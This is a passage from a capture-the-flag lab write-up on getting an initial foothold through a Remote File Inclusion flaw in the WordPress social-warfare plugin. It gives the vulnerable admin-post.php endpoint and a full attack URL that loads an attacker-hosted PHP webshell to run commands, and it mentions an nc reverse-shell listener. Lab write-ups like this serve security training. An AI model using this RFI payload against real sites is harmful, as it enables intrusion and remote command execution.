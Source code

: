 Looks like the `social-warfare` suffers a Remote Code Execution vulnerability!

# Initial Foothold

**The [`46794.py`](https://www.exploit-db.com/exploits/46794) python exploit contains 2 things:**

- Remote File Inclusion(RFI) in `wp-admin/admin-post.php?swp_debug=load_options&swp_url=<OUR_HOSTED_RFI_FILE>`
- Specify the payload file that we hosted.

> I think the python exploit feel kinda uncomfortable for me, as I usually exploit RFI manually. Hence I'll do this manually.

1. Create a PHP webshell in `txt` format and host it:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/SoSimple/images/a8.png)

2. Go to `http://192.168.129.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://[YOUR_IP]/webshell.txt&cmd=[COMMAND_HERE]` to trigger the webshell:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/SoSimple/images/a9.png)

3. Setup a `nc` listener and make a reverse shell:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/SoSimple/images/a10.png)
